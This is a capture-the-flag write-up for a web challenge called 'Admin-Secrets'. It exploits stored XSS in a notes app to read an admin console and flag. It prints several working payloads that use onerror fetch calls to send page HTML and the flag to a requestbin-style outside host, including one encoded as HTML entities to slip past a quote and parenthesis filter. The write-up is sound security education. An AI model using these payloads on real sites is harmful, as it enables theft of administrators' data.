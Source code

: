 # Admin-Secrets
Web, 100

>  Written by avz92
>  See if you can get the flag from the admin at this website!

We register and we see a note. By instinct, we enter `<img src=x onerror='alert(1)' />` and submit. And, we get an alert when viewing the note, and a "Report to admin" button. When viewing the source, we see there's an admin console which only the admin can view. Naturally, we exfiltrate the console:

```html
<img src=x onerror='fetch("your-requestbin", {method: "POST", body: document.head.outerHTML + document.body.outerHTML})' />
```

In our requestbin, we can see the following HTML:

```html
<button class="btn btn-primary flag-button">Access Flag</button>

<a href="/button" class="btn btn-primary other-button">Delete User</a>

<a href="/button" class="btn btn-primary other-button">Delete Post</a>
```

Along with this js:

```js
var flag='';
f=function(e){
    $.ajax({
        type: "GET",
        url: "/admin_flag",
        success: function(resp) {
            flag=resp;$("#responseAlert").text(resp); $("#responseAlert").css("display","");
        }
    })
    return flag;
};
$('.flag-button').on('click',f);
```

Strangely, sending a request to `/admin_flag` first seems to invalidate everything, so we first send a request to `your-requestbin` then `/admin_flag` then `your-requestbin` again (I replaced the "a"s in admin flag with `\x61` in case of any filter).

```html
<img src=x onerror='fetch("your-requestbin").then(r => $.ajax({type: "GET", url: "/\x61dmin_fl\x61g", success: v => fetch("your-requestbin", {method: "POST", body: v})}))' />
```

And, our requestbin gets a post request! We've solved it! Wait a second...

```
This post contains unsafe content. To prevent unauthorized access, the flag cannot be accessed for the following violations: Single quote found. Double quote found. Parenthesis found. 
```

So, we can't use quotes or parens, but that's fine, because we can just escape everything in HTML entity chars:

```html
<img src=x onerror=&#102;&#101;&#116;&#99;&#104;&#40;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#101;&#110;&#50;&#104;&#108;&#107;&#114;&#110;&#115;&#51;&#117;&#121;&#111;&#46;&#120;&#46;&#112;&#105;&#112;&#101;&#100;&#114;&#101;&#97;&#109;&#46;&#110;&#101;&#116;&#47;&#98;&#97;&#105;&#116;&#34;&#41;&#46;&#116;&#104;&#101;&#110;&#40;&#114;&#32;&#61;&#62;&#32;&#36;&#46;&#97;&#106;&#97;&#120;&#40;&#123;&#116;&#121;&#112;&#101;&#58;&#32;&#34;&#71;&#69;&#84;&#34;&#44;&#32;&#117;&#114;&#108;&#58;&#32;&#34;&#47;&#97;&#100;&#109;&#105;&#110;&#95;&#102;&#108;&#97;&#103;&#34;&#44;&#32;&#115;&#117;&#99;&#99;&#101;&#115;&#115;&#58;&#32;&#118;&#32;&#61;&#62;&#32;&#102;&#101;&#116;&#99;&#104;&#40;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#101;&#110;&#50;&#104;&#108;&#107;&#114;&#110;&#115;&#51;&#117;&#121;&#111;&#46;&#120;&#46;&#112;&#105;&#112;&#101;&#100;&#114;&#101;&#97;&#109;&#46;&#110;&#101;&#116;&#47;&#34;&#44;&#32;&#123;&#109;&#101;&#116;&#104;&#111;&#100;&#58;&#32;&#34;&#80;&#79;&#83;&#84;&#34;&#44;&#32;&#98;&#111;&#100;&#121;&#58;&#32;&#118;&#125;&#41;&#125;&#41;&#41; />
```

Flag: `tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}`